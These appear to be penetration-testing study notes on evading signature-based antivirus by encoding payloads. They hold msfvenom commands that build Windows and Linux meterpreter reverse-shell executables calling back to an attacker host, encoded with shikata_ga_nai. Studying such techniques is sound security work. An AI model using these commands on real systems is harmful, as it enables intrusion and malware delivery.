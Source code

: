 ```yaml
---
up: "[[Client-Side Attacks]]"
---
```


# Encoding Payloads with MSFvenom

- Payloads must be transferred and stored on the client system
- Most end user AV solutions utilize signature based detection in order to identify malicious files or executables
- Older signature based AV solutions can be evaded by encoding our payloads
- Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature

## Shellcode

- a Shellcode is a piece of code typically used as a payload for exploitation
- It gets its name from the term command shell, whereby shellcode is a piece of code that provides an attacker with a remote command shell on the target system

## Demonstration

```bash
# list encoders
msfvenom --list encoders
# encode payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=<port> -e x86/shikata_ga_nai -f exe > encodedx86.exe
```

- Payload can be encoded with as much iteration as needed
- The more iterations the more chances to evade AVs

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=<port> -i 10 -e x86/shikata_ga_nai -f exe > encodedx86.exe
```

- any number after 10 iterations is not giving much more advantage

Same for linux:

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<my_ip> LPORT=<port> -i 10 -e x86/shikata_ga_nai -f elf > encodedx86
```
